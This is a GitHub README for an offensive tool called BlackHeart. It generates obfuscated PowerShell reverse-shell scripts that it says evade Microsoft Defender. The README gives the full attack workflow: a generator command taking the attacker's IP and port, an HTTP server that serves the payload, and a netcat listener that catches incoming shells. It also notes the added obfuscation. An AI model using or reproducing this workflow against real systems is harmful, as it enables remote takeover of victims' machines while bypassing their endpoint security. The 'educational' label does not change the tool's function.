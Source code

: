 # BlackHeart
<img src="https://img.shields.io/badge/-Linux-black?style=for-the-badge&logo=Linux&logoColor=white"> <img src="https://img.shields.io/badge/-Python-black?style=for-the-badge&logo=python&logoColor=white"><br>

BlackHeart is a simple python script to generate powershell scripts that demonstrate reverse shell gaining without Microsoft Defender restrictions. (FOR EDUCATIONAL PURPOSES!!)

# Updates
<b>04/09/2022</b>

- [X] Added basic obfuscation to reverse shell file.
- [X] Bug fixes.

# Setup
You can use simply the following command<br>
```bash
pip3 install -r requirements.txt
```

# Usage
- First of all you have to generate a template for your shell.
```bash
python3 blackheart.py --lhost YOUR_IP --lport YOUR_PORT
```

- Then you have to open a simple http server to serve your template.
```bash
python3 -m http.server
```

- And you need to open a listener port to listen incoming connections.
```bash
nc -lvp 4545
```

# PoC
https://user-images.githubusercontent.com/42123683/188307621-dba04ee0-5cb3-4c72-94dd-d1ee95661a50.mp4
